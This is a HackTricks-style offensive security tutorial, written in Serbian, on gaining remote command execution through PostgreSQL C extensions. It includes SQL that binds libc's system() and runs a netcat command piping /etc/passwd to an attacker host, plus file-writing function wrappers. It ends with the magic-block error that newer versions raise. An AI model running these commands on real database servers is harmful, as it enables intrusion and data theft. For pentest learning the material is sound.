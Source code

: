 # RCE with PostgreSQL Extensions

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## PostgreSQL Ekstenzije

PostgreSQL je razvijen sa mogućnošću proširivosti kao osnovnom karakteristikom, omogućavajući mu da bez problema integriše ekstenzije kao da su ugrađene funkcionalnosti. Ove ekstenzije, suštinski biblioteke napisane u C-u, obogaćuju bazu podataka dodatnim funkcijama, operatorima ili tipovima.

Od verzije 8.1 nadalje, postoji specifičan zahtev za ekstenzijske biblioteke: moraju biti kompajlirane sa posebnim zaglavljem. Bez toga, PostgreSQL ih neće izvršiti, obezbeđujući korišćenje samo kompatibilnih i potencijalno bezbednih ekstenzija.

Takođe, imajte na umu da **ako ne znate kako** [**da otpremite fajlove na žrtvu zloupotrebom PostgreSQL-a, trebali biste pročitati ovaj post.**](big-binary-files-upload-postgresql.md)

### RCE na Linux-u

**Za više informacija pogledajte:** [**https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/**](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)

Izvršavanje sistemskih komandi iz PostgreSQL-a verzije 8.1 i starijih je proces koji je jasno dokumentovan i jednostavan. Moguće je koristiti ovaj: [Metasploit modul](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres\_payload).

```sql
CREATE OR REPLACE FUNCTION system (cstring) RETURNS integer AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');

# You can also create functions to open and write files
CREATE OR REPLACE FUNCTION open(cstring, int, int) RETURNS int AS '/lib/libc.so.6', 'open' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION write(int, cstring, int) RETURNS int AS '/lib/libc.so.6', 'write' LANGUAGE 'C' STRICT;
CREATE OR REPLACE FUNCTION close(int) RETURNS int AS '/lib/libc.so.6', 'close' LANGUAGE 'C' STRICT;
```

<details><summary>Upisivanje binarnog fajla iz base64</summary></details>

Međutim, kada je pokušano na većim verzijama, **prikazana je sledeća greška**:

```c
ERROR:  incompatible library “/lib/x86_64-linux-gnu/libc.so.6”: missing magic block
HINT:  Extension libraries are required to use the PG_MODULE_MAGIC macro.
```

Ova greška je objašnjena u [PostgreSQL dokumentaciji](https://www.postgresql.org/docs/current/static/xfunc-c.html):

> Da bi se osiguralo da se dinamički učitani objektni fajl ne učita u nekompatibilni server, PostgreSQL proverava da li fajl sadrži "magic block" sa odgovarajućim sadržajem. Ovo omogućava serveru da otkrije očigledne nekompatibilnosti, kao što je kod kompajliran za drugu glavnu verziju PostgreSQL-a. Magic block je obavezan od PostgreSQL verzije 8.2. Da biste uključili magic block, napišite ovo u jednom (i samo jednom) od izvornih fajlova modula, nakon što ste uključili zaglavlje fmgr.h:
>
> `#ifdef PG_MODULE_MAGIC`\
> `PG_MODULE_MAGIC;`\
> `#endif`
